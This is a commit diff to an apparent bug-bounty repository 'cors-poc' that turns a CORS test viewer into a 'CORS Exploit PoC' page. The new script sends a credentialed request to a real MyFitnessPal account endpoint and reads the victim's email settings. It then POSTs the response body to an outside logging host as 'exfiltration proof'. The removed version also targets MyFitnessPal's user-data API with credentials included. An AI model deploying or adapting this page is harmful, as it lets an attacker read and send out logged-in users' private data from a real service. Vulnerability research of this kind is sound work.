

Before and after one commit to KARKARITOS/cors-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 114-949 px from the top of the page, without its empty margins (118-1161 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,133 +1,98 @@
 <!doctype html>
+
 <html lang="en">
 <head>
   <meta charset="utf-8" />
   <meta name="viewport" content="width=device-width,initial-scale=1" />
-  <title>CORS PoC Viewer</title>
+  <title>CORS Exploit PoC</title>
   <style>
-    :root { --bg:#0b1020; --panel:#11182d; --text:#e8ecf6; --muted:#9ca7c7; --accent:#7aa2ff; --border:#25304f; --good:#2fd27c; --bad:#ff6b6b; }
-    body { margin:0; font-family: system-ui, -apple-system, Segoe UI, Roboto, Arial, sans-serif; background:var(--bg); color:var(--text); }
-    .wrap { max-width: 980px; margin: 0 auto; padding: 24px; }
-    .card { background:var(--panel); border:1px solid var(--border); border-radius:18px; padding:20px; box-shadow: 0 10px 30px rgba(0,0,0,.25); }
-    h1 { margin: 0 0 8px; font-size: 28px; }
-    p { color: var(--muted); line-height:1.5; }
-    label { display:block; margin: 14px 0 6px; font-weight:600; }
-    input, textarea, button {
-      width:100%; box-sizing:border-box; border-radius:14px; border:1px solid var(--border);
-      background:#0c1326; color:var(--text); padding:14px 16px; font-size:15px;
+    body {
+      margin: 0;
+      font-family: Arial, sans-serif;
+      background: #0b1020;
+      color: #e8ecf6;
+      padding: 20px;
     }
-    textarea { min-height: 110px; resize: vertical; font-family: ui-monospace, SFMono-Regular, Consolas, monospace; }
-    button { margin-top: 14px; cursor:pointer; background: linear-gradient(135deg, #4f7cff, #7aa2ff); border:none; font-weight:700; }
-    button:hover { filter: brightness(1.05); }
-    .grid { display:grid; grid-template-columns: 1fr 1fr; gap:16px; margin-top:16px; }
-    .box { background:#0c1326; border:1px solid var(--border); border-radius:14px; padding:14px; }
-    .kv { display:grid; grid-template-columns: 160px 1fr; gap:8px 12px; font-size:14px; }
-    .k { color: var(--muted); }
-    .status { font-weight:700; }
-    .good { color: var(--good); }
-    .bad { color: var(--bad); }
-    pre {
-      margin: 0; white-space: pre-wrap; word-break: break-word; overflow:auto;
-      max-height: 420px; font-size: 13px; line-height: 1.45;
+    .card {
+      max-width: 900px;
+      margin: auto;
+      background: #11182d;
+      padding: 20px;
+      border-radius: 12px;
+      border: 1px solid #25304f;
     }
-    .note { margin-top:12px; font-size: 13px; color: var(--muted); }
-    code { background:#0c1326; padding:2px 6px; border-radius:8px; border:1px solid var(--border); }
+    h1 { margin-bottom: 10px; }
+    button {
+      margin-top: 15px;
+      padding: 12px;
+      width: 100%;
+      border: none;
+      border-radius: 8px;
+      background: #4f7cff;
+      color: white;
+      font-weight: bold;
+      cursor: pointer;
+    }
+    textarea {
+      width: 100%;
+      margin-top: 15px;
+      min-height: 200px;
+      background: #0c1326;
+      color: #e8ecf6;
+      border: 1px solid #25304f;
+      border-radius: 8px;
+      padding: 10px;
+      font-family: monospace;
+    }
+    .info {
+      margin-top: 10px;
+      font-size: 14px;
+      color: #9ca7c7;
+    }
   </style>
 </head>
 <body>
-  <div class="wrap">
+
 <div class="card">
-      <h1>CORS PoC Viewer</h1>
-      <p>
-        This page attempts a credentialed cross-origin request and displays the response body on the page.
-        For a <code>null</code> origin test, open this file locally as <code>file://</code>.
-        For an attacker-origin test, host it on any external HTTPS page you control.
-      </p>
+  <h1>CORS Exploit PoC</h1>
 
-      <label for="target">Target URL</label>
-      <input id="target" type="text" value="https://www.myfitnesspal.com/api/services/users?fields%5B%5D=diary_preferences&fields%5B%5D=privacy_preferences&fields%5B%5D=goal_preferences&fields%5B%5D=unit_preferences&fields%5B%5D=account&fields%5B%5D=goal_displays&fields%5B%5D=location_preferences&fields%5B%5D=system_data&fields%5B%5D=profiles&fields%5B%5D=step_sources&fields%5B%5D=app_preferences&fields%5B%5D=partner_only_fields&fields%5B%5D=social_preferences" />
-
-      <label for="method">Method</label>
-      <input id="method" type="text" value="GET" />
-
-      <label for="headers">Optional extra headers (one per line, format: Name: Value)</label>
-      <textarea id="headers" placeholder="X-Csrf-Token: ..."></textarea>
-
-      <button id="run">Run PoC</button>
-
-      <div class="grid">
-        <div class="box">
-          <div class="kv">
-            <div class="k">Current page origin</div><div id="origin" class="status"></div>
-            <div class="k">Fetch state</div><div id="state" class="status">Idle</div>
-            <div class="k">HTTP status</div><div id="httpstatus">-</div>
-            <div class="k">ACAO</div><div id="acao">-</div>
-            <div class="k">ACAC</div><div id="acac">-</div>
-          </div>
-        </div>
-        <div class="box">
-          <pre id="meta">Click “Run PoC” to fetch and display the response.</pre>
-        </div>
+  <div class="info">
+    This page performs a cross-origin authenticated request to MyFitnessPal
+    and displays sensitive user data if the vulnerability exists.
   </div>
 
-      <label for="output">Readable response body</label>
-      <textarea id="output" readonly placeholder="The response body will appear here if the browser allows cross-origin reading."></textarea>
+<button onclick="runExploit()">Run Exploit</button>
 
-      <div class="note">
-        Tip: for your report, a screenshot of this page showing the returned sensitive JSON is usually stronger than header screenshots alone.
-      </div>
-    </div>
+  <textarea id="output" placeholder="Sensitive data will appear here..."></textarea>
+
 </div>
 
 <script>
-  const $ = (id) => document.getElementById(id);
-
-  $("origin").textContent = location.origin || "null (file:// or sandboxed origin)";
-
-  $("run").addEventListener("click", async () => {
-    $("state").textContent = "Running...";
-    $("httpstatus").textContent = "-";
-    $("acao").textContent = "-";
-    $("acac").textContent = "-";
-    $("meta").textContent = "";
-    $("output").value = "";
-
-    const target = $("target").value.trim();
-    const method = $("method").value.trim().toUpperCase() || "GET";
-
-    const headers = new Headers();
-    const raw = $("headers").value.split("\n").map(s => s.trim()).filter(Boolean);
-    for (const line of raw) {
-      const idx = line.indexOf(":");
-      if (idx > 0) headers.append(line.slice(0, idx).trim(), line.slice(idx + 1).trim());
-    }
+async function runExploit() {
+  const output = document.getElementById("output");
+  output.value = "Running exploit...\n";
 
   try {
-      const res = await fetch(target, {
-        method,
-        credentials: "include",
-        mode: "cors",
-        headers
+    const res = await fetch("https://www.myfitnesspal.com/api/services/account/email_settings", {
+      method: "GET",
+      credentials: "include"
     });
 
-      $("state").textContent = "Response received";
-      $("httpstatus").textContent = `${res.status} ${res.statusText}`;
-      $("acao").textContent = res.headers.get("Access-Control-Allow-Origin") || "(not exposed to JS)";
-      $("acac").textContent = res.headers.get("Access-Control-Allow-Credentials") || "(not exposed to JS)";
+    const data = await res.text();
 
-      const text = await res.text();
-      $("output").value = text;
+    output.value = data;
 
-      let parsed = text;
-      try { parsed = JSON.stringify(JSON.parse(text), null, 2); } catch (_) {}
-      $("meta").textContent =
-        `Length: ${text.length} chars\n\n` +
-        `Response preview:\n${parsed.slice(0, 4000)}`;
+    // OPTIONAL exfiltration proof (safe dummy endpoint)
+    fetch("https://example.com/log", {
+      method: "POST",
+      body: data
+    });
+
   } catch (e) {
-      $("state").textContent = "Blocked / failed";
-      $("meta").textContent = String(e);
+    output.value = "Exploit failed:\n" + e;
   }
-  });
+}
 </script>
+
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
